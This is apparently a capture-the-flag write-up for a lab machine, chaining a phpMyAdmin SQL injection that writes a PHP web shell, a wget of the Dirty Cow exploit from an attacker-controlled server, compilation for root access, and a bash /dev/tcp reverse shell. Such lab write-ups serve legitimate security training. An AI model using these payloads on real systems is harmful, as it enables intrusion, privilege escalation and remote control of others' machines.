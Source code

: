 # Dirty Cow in the SQL Injection

In other write-ups, we have seen how to exploit the Dirty Cow vulnerability to gain root access.
But we needed to have the password of the user `laurie` of the machine to exploit it.

In this write-up, we will see how compile and run the Dirty Cow exploit without having a ssh connection on the machine, via a SQL Injection in the phpMyAdmin panel.

Like as previous, this is the php code for executing command via the forum page:

```sql
select '<?php system($_GET["cmd"]); ?>' into outfile "/var/www/forum/templates_c/cmd.php"
```

We can create a server with python in which our `dirty.c` file will be called.

```bash
$python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
```

Now, we can execute any command, first of all we need to send the dirty.c file to the server and compile it:

```bash
curl --insecure --get https://BornToBeSec/forum/templates_c/cmd.php --data-urlencode "cmd=wget http://attacker:8000/dirty.c 2> /dev/stdout" # Send the dirty.c file from the attacker machine to the server
curl --insecure --get https://BornToBeSec/forum/templates_c/cmd.php --data-urlencode "cmd=ls" # Check if the file is there
curl --insecure --get https://BornToBeSec/forum/templates_c/cmd.php --data-urlencode "cmd=gcc -pthread dirty.c -o dirty -lcrypt" # Compile the dirty.c file
curl --insecure --get https://BornToBeSec/forum/templates_c/cmd.php --data-urlencode "cmd=./dirty 4242" # Execute the compiled file with the password 4242
```
 We could even change the user firefart to ft_root or laurie for getting a ssh connection via this command but right now we stay the simple way.
```bash
sed -i 's/firefart/ft_root/g' dirty.c
```

After that, we can check the id in su:
```bash
curl --insecure --get https://BornToBeSec/forum/templates_c/cmd.php --data-urlencode "cmd=su firefart -c id"

```

We could also create a reverse shell with the following command:
```bash
nc -lvp 4444 # On the attacker machine
curl --insecure --get https://BornToBeSec/forum/templates_c/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'" # On the target machine
```
